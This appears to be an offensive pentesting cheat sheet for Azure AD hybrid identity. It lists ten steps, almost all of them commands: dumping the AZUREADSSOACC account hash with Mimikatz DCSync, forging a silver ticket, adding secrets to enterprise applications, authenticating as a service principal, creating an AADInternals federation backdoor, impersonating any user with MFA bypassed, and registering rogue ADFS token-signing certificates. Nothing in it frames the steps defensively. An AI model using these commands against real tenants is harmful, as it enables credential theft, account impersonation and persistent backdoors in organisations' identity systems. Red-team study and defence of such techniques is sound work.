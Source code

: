 # Hybrid identity - Seamless SSO

Seamless Single Sign-On (SSO) is a feature supported by both Pass-Through Authentication (PTA) and Password Hash Synchronization (PHS) in Azure AD. 

It enables users to access Azure AD-integrated resources seamlessly without the need to re-enter their credentials.

## Steps:

### 1) Obtain NTLM hash of AZUREADSSOC Account

    Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\azureadssoacc$ /domain:<DOMAIN> /dc:<DC NAME>"'

### 2) Create a Silver Ticket

    Invoke-Mimikatz -Command '"kerberos::golden /user:<USERNAME> /sid:<SID> /id:1108 /domain:<DOMAIN> /rc4:<HASH> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'

### 3) Add credentials to Enterprise Applications

    . .\Add-AzADAppSecret.ps1

    Add-AzADAppSecret -GraphToken $graphtoken -Verbose

### 4) Authenticate as a Service Principal using the secret

    $password = ConvertTo-SecureString '<SECRET>' -AsPlainText -Force
    $creds = New-Object System.Management.Automation.PSCredential('<ACCOUNT ID>', $password)

    Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant <TENANT ID>

### 5) Check resource accessible to the service principal

    Get-AzResource

### 6) Federation

Create a trusted domain and configure its authentication type to federated

    Import-Module .\AADInternals.psd1
    ConvertTo-AADIntBackdoor -DomainName <DOMAIN>

### 7) Obtain the immutable ID of the user you want to impersonate

    Get-MsolUser | select userPrincipalName,ImmutableID

### 8) Access ANY cloud app as the user

    Open-AADIntOffice365Portal -ImmutableID <ID> -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA $true

### 9) Token Signing Certificate

With Domain Admin privileges on the on-premises AD, create and import new token signing and token decrypt certificates

    Import-Module .\AADInternals.psd1
    New-AADIntADFSSelfSignedCertificates

### 10) Update the certificate information with Azure AD

    Update-AADIntADFSFederationSettings -Domain <DOMAIN>
